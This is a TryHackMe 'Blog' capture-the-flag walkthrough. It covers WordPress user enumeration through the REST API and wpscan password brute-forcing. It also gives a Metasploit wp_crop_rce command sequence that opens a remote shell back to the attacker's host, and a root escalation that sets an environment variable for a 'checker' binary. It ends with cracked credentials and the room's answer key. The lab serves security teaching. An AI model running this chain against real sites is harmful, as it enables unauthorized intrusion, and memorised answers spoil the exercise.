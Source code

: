 # Blog | TryHackMe

## Overview
- **Room:** Blog  
- **Difficulty:** Medium  
- **Tags:** WordPress, Gobuster, Wpscan, PrivEsc  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  

---

### Web Enumeration (Port 80)
Visited `http://<IP>/` → WordPress blog.  

Checked `robots.txt` → nothing useful.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Found `/admin`.  

Identified WordPress 5.0 from page source.  

---

### User Enumeration
Checked WordPress API endpoint:  
```http://<IP>/wp-json/wp/v2/users```  
Found users: `kwheel`, `bjoel`  

---

### WPScan
```bash
wpscan --url http://<IP>/ --enumerate u --passwords /usr/share/wordlists/rockyou.txt
```
Credentials found:  
- `kwheel : cutiepie1`  

---

## Exploitation

Logged in as `kwheel`.  

Tried uploading reverse shell → failed.  

Switched to Metasploit:  
```bash
msfconsole
search wordpress 5.0
use exploit/multi/http/wp_crop_rce
set RHOSTS <IP>
set TARGETURI /
set USERNAME kwheel
set PASSWORD cutiepie1
set LHOST <your_IP>
run
```
Got shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh`.  
Discovered password for user `bjoel`.  

Also found suspicious binary `checker`.  
Analyzed with Ghidra → program checks `admin` environment variable.  

```bash
export admin=1
/usr/bin/checker
whoami
root
```

---

## Flags
- **User.txt** → `/media/usb/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What is the WordPress version?** → `5.0`  
2. **Which users were found via API?** → `kwheel`, `bjoel`  
3. **What password was cracked for kwheel?** → `cutiepie1`  
4. **Which binary was exploited for root?** → `checker`  
5. **Where was the user flag located?** → `/media/usb/user.txt`  

---

## Lessons Learned
- WordPress REST API leaks usernames.  
- WPScan automates brute-forcing WordPress users.  
- Analyzing binaries with Ghidra helps discover logic flaws.  
- Environment variable abuse can lead to privilege escalation.  
